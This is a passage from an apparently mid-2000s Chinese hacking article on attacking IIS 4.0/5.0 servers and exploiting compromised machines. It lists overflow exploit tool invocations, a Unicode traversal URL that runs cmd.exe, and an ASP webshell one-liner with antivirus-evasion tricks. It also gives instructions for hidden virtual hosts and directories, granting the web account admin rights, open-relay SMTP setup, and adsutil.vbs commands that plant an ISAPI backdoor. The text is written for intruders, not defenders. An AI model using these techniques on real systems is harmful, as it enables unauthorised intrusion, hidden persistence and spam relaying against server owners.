W2k IIS 5.0存在打印扩展ISAPI，使 .printer 扩展与 msw3prt.dll 关联映射，该扩展可以通过 WEB 调用打印机。WINDOWS 2000 打印ISAPI扩展接口建立了 .printer 扩展名到 msw3prt.dll 的映射关系，默认情况下是存在的，并会处理用户请求，但在 msw3prt.dll 文件中存在缓冲溢出，只要在 "Host:" 栏中包含大约420字节的 HTTP .printer 请求给服务器，就可以导致缓冲溢出并执行任意代码，一般情况下攻击会使 WEB 服务停止响应，但 W2K 会检测到 WEB 服务没有响应而重新启动服务，所以也是管理员比较难发现的一种攻击方法。该漏洞在 x-scan 扫描中的被描述为：可能存在 .printer 扩展溢出漏洞。受漏洞影响系统的为 IIS5.0+w2k/sp1。利用工具是 sunx 写过的 iis5hack.exe，可以获得系统 guest 权限，不可重复溢出。入侵方法：

```
iis5hack.exe ip web端口 sp类型
```


幸运的话入侵者可以在99端口得到一个 shell。如图7。

### 5. Microsoft IIS ASP SSI远程缓冲区溢出漏洞

Server-side include files (SSI文件) 是驻留在WEB服务器上并通过脚本、程序或者 WEB 页来包含的文件。在某些情况下，请求一特殊 WEB 页面会导致其包含在 ASP 脚本代码的一部分进行处理，因为这涉及到把用户输入放到一个缓冲中，如果接收到包含非法的文件名的请求，结果可以导致超长的文件名破坏分配的缓冲区，攻击者以 ASP.DLL 进程来执行任意命令。

该漏洞在 X-SCAN 的扫描结果被定义为：可能存在 asp 分块编码缓冲区溢出漏洞。受此漏洞影响的系统为 IIS4.0/IIS5.0/IIS5.1/+w2k/xp。利用工具为宽哥写的一个 apscode.exe，对 IIS4.0 可以获得系统权限，对 IIS5.0 以上版本可以获得 iwam_computer 权限，可重复溢出。入侵方法：

```
apscode.exe ip <asp文件> <一般用 iisstart.asp> <web端口>
```


幸运的话可以直接进入对方系统（图8）。在《黑客X档案》2003年3、4期都有对这个漏洞及工具的详细介绍（3期的“asp漏洞之尝试溢出攻击”、4期的“iis.asp漏洞之如何溢出”），不过两篇文章都有同样的一处错误，都误认为用 apscode 在溢出成功的情况下可以看到的是 asp 的源码，认为看到了 asp 的源码对服务器的危害也是非常之大。其实，用 apscode 看到的仍然是 asp 文件在服务端过滤后输出到客户端的 html 源码，这与浏览器里的查看 asp 页面的源码是一样的，对服务器没有丝毫危害。

### 6. Microsoft Windows 2000 WebDAV远程缓冲区溢出漏洞

IIS 5.0 带有的 WebDav 组件对用户输入的传递给 ntdll.dll 程序处理的请求未做充分的边界检查，远程入侵者可以通过向 WebDAV 提交一个精心构造的超长数据请求而导致发生缓冲区溢出，这可能使入侵者以 LocalSystem 的权限在主机上执行任意指令。受影响系统为 IIS5.0+w2k/sp3 以下版本。相信对于这个漏洞大家都很熟悉了，最好的利用工具是宽哥写的 webdav.exe，方法：

```
webdav ip web端口 offset类型
```


如果成功的话，可以直接进入对方系统的 system32 目录下（图9），获得 sysadmin 权限，相信就是这个漏洞拉开了互联网 2003 年 rpc 蠕虫发作的序幕。

### 7. Microsoft IIS 4.0/5.0 Unicode解码错误可远程执行命令漏洞

IIS4.0 和 5.0 在处理 Unicode 解码和 UTF 编码时都存在漏洞，可以导致远程用户以 use_machinename 的帐户执行任意命令。受影响系统为 IIS4.0/5.0+w2k/sp2 以下版本。为什么要将这个漏洞放到最后来说呢？真是深深地怀念，我学黑客的入门教程就是从这个漏洞开始的。从这个漏洞以后，我才相对于人在 WinNT 系统上 5 分钟就可以完成的事情，自这个漏洞后才出现了大量的菜鸟黑客。利用工具，用 IE 浏览器就可以了，像提交：

```
http://www.victim.com/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir
```

可以列出当前目录上的内容，与 Win2000 NetDDE 消息权限提升漏洞相结合的话，可以轻易得到系统权限。具体的入侵步骤这里就不详述了。这个漏洞当年和如今的 RPC 漏洞风险程度相比有过之无不及，现在互联网里仍然有大量机器中了利用这个漏洞的红色代码或尼姆达病毒。

当然，IIS 的漏洞远远超过这些，还有大量的 IIS 边缘漏洞像 Frontpage 扩展、溢出、SMTP信息查询、Microsoft Windows Media Services NSISLog.DLL 远程缓冲区溢出在 IIS 的上下文中执行任意指令的漏洞我都没有收集，不过可以被菜鸟利用的 IIS 经典漏洞相信我收集的止于此了。虽然新的漏洞也会不断地发现，新的攻击方法也会不断地被探索求证。但是我们不再讨论下去，因为这个章节并不是本文的重点内容，入侵之后 IIS 的利用心得及 IIS 的安全配置才是本文的精华所在。

## IIS的HACK利用

# 主题乐园

当时把我给问愣了。用来做养马场、做写文章的实验场所，还是其它？其实以前我有肉鸡时，我都是上去就装一套 Apache + MySQL + PHP，再做一个 PHP 论坛，然后就不了了之了。不过当时我给十五的问题是，重要的是学习肉鸡的网站配置。这也是真的，认真研究一下肉鸡的 IIS 配置，你也会发现一些有趣的东西。当然，我侧重于黑客的应用，至于你学习了了解 IIS 准备用它做网站，那就请去参阅一些 IIS 网站通之类的手册。

### 1. WebDAV 目录的 HACK 应用

很多菜鸟可能对 WebDAV 漏洞入侵很拿手，但却不知什么是 WebDAV。专业点讲 WebDAV（Web Distributed Authoring and Versioning）为一个 HTTP/1.1 通讯协定的延伸建议 RFC-2518，让用户端使用者可以透过网络来进行网页内容的编辑工作。WebDAV 透过 HTTP/1.1 通讯协定扩充，提供简单的文件输入／输出（Simple File I/O）的功能，包含：建立、修改、删除及浏览目录和文件。那么通俗一点讲，WebDAV 目录就是一个虚拟目录，不过这个目录有了写入、浏览权限。虚拟目录你可以用 IIS 管理器来建立，或是对准一个文件夹用鼠标右键→Web 共享→共享这个目录，来设定一个虚拟目录。如我本机 IP 为 192.168.1.3，我把 `c:\lyb` 建了一个虚拟目录，那么访问这个虚拟目录的地址就是 `http://192.168.1.3/lyb`（图 10）。此刻我在 IIS 管理器里给了这个 `/lyb` 目录更多的权限，具备了读取、写入、浏览，使其成为了一个 WebDAV 目录。

也许大家记得《黑客 X 档案》2003 年第 11 期王竟有篇文章“利用虚拟目录的权限设置不当进行攻击”，讲的是如何利用虚拟目录的写权限来进行上传 ASP 木马。他的主要方法是用瑞士军刀 NC 向 80 端口提交数据，啰嗦了好几千字，看似巧妙，实则是笨极了，根本原因是他不了解 WebDAV 协议。因为 WebDAV 目录本身就提供了远程访问的支持。具体方法是用 IE 浏览器的文件打开功能，构造以 Web 文件夹方式，输入你要打开的虚拟目录地址就可以了（图 11）。

此刻，远程服务器 `192.168.1.3/lyb/` 目录下的所有的东西都可以在你本机应用了（图 12），你可以在这里复制、粘贴（就是上传了），修改远端的 lyb 目录了，很是方便。

当然，打开远端 WebDAV 目录的方法还有一种，那就是用网上邻居里的添加网上邻居的方式打开（图 13）。想一下，如果你入侵了一台 IIS 肉鸡，在肉鸡里建立一个 WebDAV 目录用于你的上传下载和执行程序是不是特别方便呢？

### 2. 绕过 IIS 自定义的错误信息，暴出数据库通用大法

《黑客 X 档案》2004 年第 2 期，Sniper 有篇文章“暴库：你藏好了吗？”，该文分析了如何暴出动力文章和动网论坛的数据库，其原因归结为本地或远程提交错误请求数据库同级目录下的 `conn.asp`。方法是对的，但根本原理没有讲透，总觉得有些隔靴搔痒的感觉。其实，根本原因还是 IE 浏览器对 `\` 和 `/` 这两个符号的 UTF-8 编码没有分清。在 IE 中，我们来请求这个 URL：

```
http://www.yt188.com/news0/show.asp?id=245
http://www.yt188.com/news0\show.asp?id=245
```

会得到同一页面，在 IE 中 “\”、“/” 表示的是同一个东西。但是我们把 “\” 换成 UTF-8 编码 `%5c`（UTF 编码转换工具详见光盘），再来提交：

```
http://www.yt188.com/news0%5cshow.asp?id=245
```

> “Microsoft JET Database Engine” 错误 '80004005'
> 找不到文件 'E:\http\yt188.com\zhnews.asp/conn.asp'，行 7：

看到了吧？数据库 `zhnews.asp` 自动被我们暴出来了。这是为什么呢？因为在 `conn.asp`（这个新闻系统我没有源码）里他对数据库的连接方法可能写为：“db=/虚拟目录/zhnews.asp”，但是我们请求的 URL：`http://www.yt188.com/news0%5cshow.asp?id=245` 中的 `show.asp` 里调用的 `conn.asp` 强行指定的地址却是“/虚拟目录/zhnews.asp”，所以 IE 就会报错。正常的情况下只是会显示一些 IIS 错误信息，当我们按以上方法去掉 IE 的“显示友好 HTTP 错误选项”，IE 就会自动给我们另一个正确的提示信息。所以根据这个原理，你只要在 IE 里提交：

```
http://xxxx/xxxx%5cx.asp?id=xxx
```

类似这样的 URL 就有可能暴出 ACCESS 数据库了。这算是一个通用的暴库方法。但是不要忘记绕过 IIS 的自定义错误信息呀。

### 3. 做隐藏的虚拟主机

正常的虚拟主机做法：比如我们本机只有一个 IP 地址为 192.168.1.3，我们已经建立两个 Web 站点，一个是“默认 Web 站点”，一个是“第二个 Web 站点”（图 14）。

我们有两个网站 `www.icehack.com` 和 `www.itlady.net` 要放在这个 IP 上，想输入 `www.icehack.com` 可直接访问前者，输入 `www.itlady.net` 可直接访问后者。其正常的虚拟主机的操作步骤如下：

- 1. 我们先在 DNS 服务器（就是我们买的国际域名所带的控制面板）中将这两个域名的 A 记录都已经映射到了此唯一的 IP 地址，并确保所有的 Web 站点端口号均保持为 80 这个默认值。
- 2. 我们在 Internet 信息服务管理器依次选“默认 Web 站点”→右键→属性→Web 站点”，单击“IP 地址”右侧的“高级”按钮，在“此站点有多个标识”双击已有的那个 IP 地址（或单击选中它后再按“编辑”按钮），然后在“主机头名”下输入“www.icehack.com”再按“确定”按钮保存退出（图 15）。

接着按上步同样的方法为“我的第二个 Web 站点”设好新的主机头名为“www.itlady.net”即可。

- 3. 最后，打开你的 IE 浏览器，在地址栏输入不同的网址，就可以调出不同 Web 站点的内容了。

当然，作为有肉鸡的黑客自然要最大限度地利用免费资源了，我们完全可以做一个完美的可以隐藏的虚拟主机。首先需要注册一个免费的可绑 IP 的域名，`www.dns0755.net` 提供此项支持。我注册了一个 `haiyangtop.knip.net` 的域名，我们在该网站的域名管理面板里用“A 记录”将这个站点和我的肉鸡 IP `211.20.180.75` 绑定（图 16）。

绑定后立刻生效，不过此时你用 `haiyangtop.knip.net` 来访问的话，只会看到肉鸡的主站。别急，慢慢来。我们可以用一款域名绑定软件（已收录在光盘），先将此软件压缩包里的一个 `fmulti.dll` 和一个 `ff1.exe` 都拷在肉鸡的 `%systemroot%\system32` 目录下，记住一定要在这个目录下，这软件使用后才会生效，然后在肉鸡的注册表的 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W3SVC\Parameters` 下，把 `Filter DLLs` 修改成为 `fmulti.dll` 的地址（图 17）。

修改完后，再打开 `ff1.exe`，在由上到下的输入框里依次填入域名、域名、你要放网站的目录。像我写的就是 `haiyangtop.knip.net`、`haiyangtop.knip.net` 和 `c:\winnt\system32\lcx`（图 18）。输入完毕，用 net 命令重新启动一下 W3SVC（图 19）。

一切完备了，此时再打开 `haiyangtop.knip.net`，是不是直接可以访问到你放在 `c:\winnt\system32\lcx` 下的 HTM 或 ASP 文件呢？而且这个虚拟主机在 IIS 管理器里完全不可见。

### 4. 做隐藏的虚拟目录

方法是：打开 IIS 的管理器→选定一个根文件夹→按鼠标右键→选择“资源管理器”。到了网站的根目录里，新建一个文件夹，这里我取名为 `lcx`，回到 IIS 的管理器刷新就会看到 `lcx` 这个目录，选中 `lcx` 这个目录右键→新建→虚拟目录，给这个虚拟目录取名 `lcx110`，把这个虚拟目录指向我们事先建好的文件夹 `winnt\system32\homepage`。此时，打开浏览器 `http://ip/lcx/lcx110` 就应该可以正常浏览你放在 `winnt\system32\homepage` 下的网页了。好了，别管他，打开我的电脑找到网站的根目录删掉 `lcx` 这个文件夹，再回到浏览器刷新看看，网页依然会存在，但是回到 IIS 的管理器刷新看看，`lcx` 这个虚拟目录却没有了。这样一个完全隐藏的虚拟目录就做完了，我们可以把你的网站文件放在 `c:\winnt\system32\homepage` 下来访问了，相信对于利用肉鸡来做主页的黑友这是一个绝佳选择。

### 5. 做可以穿透防火墙并且不被查杀的后门

网上一段时间曾经流传过小强做的 IIS 后门的批处理文件，紫幻也写文章介绍过，但是在 W2K/SP4 下他的后门已经失效了。我也曾经在以前的杂志上写过利用 IIS 的远程管理功能来做一个永远不会被查杀的 ASP 木马。这里我再给大家谈一些在 IIS 下利用 ASP 木马做后门时的新思路。

用 ASP 在 IIS 下做后门要解决的事情有两件，一件是让 ASP 木马躲过杀毒软件和变态网管，一件是让 ASP 木马具备系统权限。现在海阳顶端网 ASP 木马红粉佳人版的风头正劲，被许多杀毒软件列为了“黑客病毒”，无论怎样加密依然被杀。这里我们可以巧妙运用 IIS 的特性，首先可以换个任意后缀来运行 ASP 木马，从而躲过杀毒软件。IIS 管理器中是用 `asp.dll` 来解析 `.asp` 后缀的，在 IIS 默认安装情况下，我们可以察觉 `.asa`、`.cer`、`.cdx` 后缀也可以成功运行 ASP 代码，因为这三种后缀的文件映射都是调用了系统的 `asp.dll`。根据这一启示，我们可以做一个 `.lcx` 的后缀映射，用 `nt\system32` 下的 `asp.dll` 来解析，这样做完后写有 ASP 代码的 `lcx` 后缀文件也会成功运行 ASP 程序。其方法是依次打开电脑的控制面板→管理工具→Internet 服务管理器→Web 站点→点鼠标右键选择“属性”→“主目录”→“配置”→“添加”（如图 20）。

其次，我们还可以让 ASP 木马来触发才运行。无论你的 ASP 木马写得多么好，基本总会调用到 `WSCRIPT.SHELL` 和 `Scripting.FileSystemObject` 这两个对象。有经验的网管可以运行查找功能，让你的木马无处可逃。这里我再给大家提供 `runasp.asp`（该文件代码见光盘），这个用 ASP 实现 ASP 文件的运行的脚本，虽然还有很多 Bug，但是对我们调用执行 ASP 木马是足够用了。我在 `runasp.asp` 里调用测试一些恶意代码时，成功躲过了瑞星的查杀。我这里举一个小例子，运行 `dir c:` 这个命令，你只要在 `runasp.asp` 里执行这句代码就行了：

```html
<%response.write server.createobject("wscript.shell").exec("cmd.exe /c dir c:\\").stdout.readall%>
```

自然，执行其它的 CMD 命令只要将 `dir c:\\` 换成别的命令行就可以了。让 ASP 木马具备系统权限的常用方法有两种，第一种是在 IIS 管理器中的主目录选项里将应用程序保护选择为：低（IIS 进程）。第二种是将“IWAM_machine”这一用户加入 Administrators 组即可。

### 6. 做属于自己的 SMTP 服务器

我们并不需要安装额外的邮件服务器，IIS 本身就拥有构建 SMTP 服务器的功能，只是可能有的人还没有安装。选择“控制面板→添加／删除程序→添加／删除 Windows 组件”，弹出 Windows 组件向导对话框，在其内双击“Internet 信息服务(IIS)”项，选中“SMTP Service”，按“确定”，插入 Win2000 安装盘进行安装（如图 22）。

安装好 SMTP 服务器后，依次选择“开始菜单→程序→Internet 服务管理器”打开 Internet 信息服务设置窗口，在“默认 SMTP 虚拟服务器”上点击鼠标右键选择“属性”，打开“常规”选项卡设置 IP 地址，假定我的机器设为 192.168.1.3（图 23），你的机器可能是“127.0.0.1”，表示指向本地计算机 IP 地址。如果你是局域网接入，拥有固定 IP 地址，那么 IP 地址就应该选择相应的地址。

其他的选项卡用默认就可以了，我们现在已经能用自己的机器发信了。当然，你如果用肉鸡来做的话，SMTP 的 IP 就是肉鸡的外网 IP。“访问”选项卡中设置访问权限。单击“身份验证”，选择“匿名访问”（图 24），表示任何用户都可以发送。单击“连接控制”中的“连接”和“中继限制”中的“中继”，选中“仅以下列表除外”，表示允许接入所有用户的访问（如图 25、图 26）。只要我们设置好了“常规”和“访问”这两个选项卡，我们的 SMTP 服务器就基本构建成功。

### 7. 命令行下进行 IIS 的相关设置

现在找肉鸡的主流 HACK 方式是通过各种溢出漏洞，但这样入侵得来的肉鸡只会给你一个命令行下的 Shell，所以研究一下 CMD 下 IIS 相关设置非常必要。在 IIS 5.0 中，微软也提供了指令行版本 `iisreset.exe` 和众多的 VBS 辅助工具。

`iisreset` 参数简介：

- `/RESTART`：重新启动所有的 Internet 服务。
- `/START`：启动所有的 Internet 服务。
- `/STOP`：停止所有的 Internet 服务。
- `/REBOOT`：电脑重新开机。
- `/REBOOTONERROR`：当启动、停止或重新启动 Internet 服务时，若发生错误，重新开机。
- `/NOFORCE`：若无法停止 Internet 服务，将不会强制终止 Internet 服务。
- `/TIMEOUT`：设置冷却时间间隔（秒），等待处理 Internet 服务。预设值为重新启动 120 秒，停止 60 秒，重新开机 0 秒。
- `/STATUS`：显示所有 Internet 服务的状态。
- `/ENABLE`：启动“重新启动 Internet 服务”的功能。
- `/DISABLE`：不启动“重新启动 Internet 服务”的功能。

想要肉鸡重新启动，敲入 `iisreset.exe /reboot` 就大功告成。此外，微软在 `C:\Inetpub\AdminScripts\` 下提供了 20 个 VBS 工具用于设置 IIS：

- 1. 利用 `findweb.vbs` 查找虚拟 Web 站点，命令格式：`findweb.vbs -c 计算机名 www.域名.com`。
- 2. 用 `Mkwebdir.vbs` 创建虚拟目录，设物理目录 `d:\tool` 的虚拟目录名为 `tool`。
- 3. 显示管理树，键入命令：`disptree -a IIS://计算机名`。

在 `AdminScripts` 目录下，最强大的当属于 `adsutil.vbs` 了。IIS 的配置文件为 `MetaBase.bin`，包含了几乎所有 IIS 的配置信息。我们在“Internet 服务管理器”中的任何设置最终都会保存在这里。如下例，我用 `idq.dll`（Unicode 漏洞里提升权限用的）配合 `adsutil.vbs` 做一个 SP3 下的 IIS 后门：

1. `copy idq.dll %systemroot%\system32\isapi.dll`
2. 得到虚拟目录 ID 备用：`cscript adsutil.vbs enum /p W3SVC`
3. 得到 IIS 所有拥有特权的 DLL：`cscript adsutil.vbs get /W3SVC/InProcessIsapiApps`
4. 将 `isapi.dll` 加入 `InProcessIsapiApps` 组（注意要保留原有的 DLL）：
   `cscript adsutil.vbs set /W3SVC/InProcessIsapiApps "C:\WINNT\system32\inetsrv\ssinc.dll,C:\WINNT\system32\inetsrv\httpext.dll,C:\WINNT\system32\msw3prt.dll,C:\WINNT\system32\isapi.dll"`
5. 设置映射：将 `.idq` 映射到 `C:\WINNT\system32\isapi.dll`。
6. 增加一个虚拟目录 `root` 并设置属性：
   `cscript adsutil.vbs create /W3svc/2/root/root`
   `cscript adsutil.vbs set /W3svc/2/root/root/AccessRead true`
   `cscript adsutil.vbs set /W3svc/2/root/root/AccessWrite true`
   `cscript adsutil.vbs set /W3svc/2/root/root/AccessScript true`
7. 增加虚拟目录 `root` 的映射，调用 `isapi.dll`。